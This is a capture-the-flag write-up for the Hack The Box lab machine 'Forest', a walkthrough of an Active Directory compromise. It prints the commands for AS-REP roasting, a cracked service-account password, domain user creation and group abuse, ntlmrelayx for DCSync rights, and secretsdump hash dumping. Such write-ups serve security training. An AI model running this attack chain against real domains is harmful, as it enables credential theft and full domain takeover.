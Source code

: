 ```yaml
---
title: "Hack The Box - Forest"
tags: [windows,easy,rpc , rpcclient , asreproasting , roasting , bloodhound , WriteDACL , GenericAll , DCSync atttack , ntlmrelayx , secretsdump]
categories: HackTheBox-Active-Directory
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%201.png)

⇒ We are able to authenticate to rpc as guest user and enumerate users :

`rpcclient -U guest -H 10.10.10.161`

`enumdomusers`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%202.png)

→ Lets save these usernames in an file then we can perform asreproast.

⇒ **ASREPRoasting** using impacket tool [GetNPUsers.py](http://getnpusers.py/)

`python3 [GetNPUsers.py](http://getnpusers.py/) -dc-ip 10.10.10.161 htb.local/ -usersfile users.txt -output hash`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%203.png)

→ Cracking the password , we got svc-alfresco user password :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%204.png)

**svc-alfresco : s3rvice**

⇒ We used evil-winrm with svc-alfresco user credentials :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%205.png)

## Privilege Escalation to Administrator

⇒ Running Bloodhound :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%206.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%207.png)

→ Our user is in service accounts so we can create users.

→ We have `GenericAll` to **EXCHANGE WINDOWS PERMISSIONS** group :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%208.png)

→ Users in **EXCHANGE WINDOWS PERMISSIONS** group have `WriteDacl` to DC.

⇒ Creating a user and adding it to the group :

`net user jake s3rvice /add /domain`

`net group "EXCHANGE WINDOWS PERMISSION" jake /add`

⇒ Now we have **WriteDACL** we will use **ntlmrelayx** to give our user **DCSync** rights :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%209.png)

[`ntlmrelayx.py](http://ntlmrelayx.py/) -t ldap://10.10.10.161 --escalate-user jake` 

→ Authenticating :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2010.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2011.png)

→ Using impacket tool secretsdump to perform DCSync attack :

`secretsdump.py htb.local/jake:s3rvice@10.10.10.161`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2012.png)

⇒ Used the Administrator NTLM Hash with evil-winrm :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Forest%20Box%20a8a85dd88ec540a7a711b0152efe10c1/Untitled%2013.png)

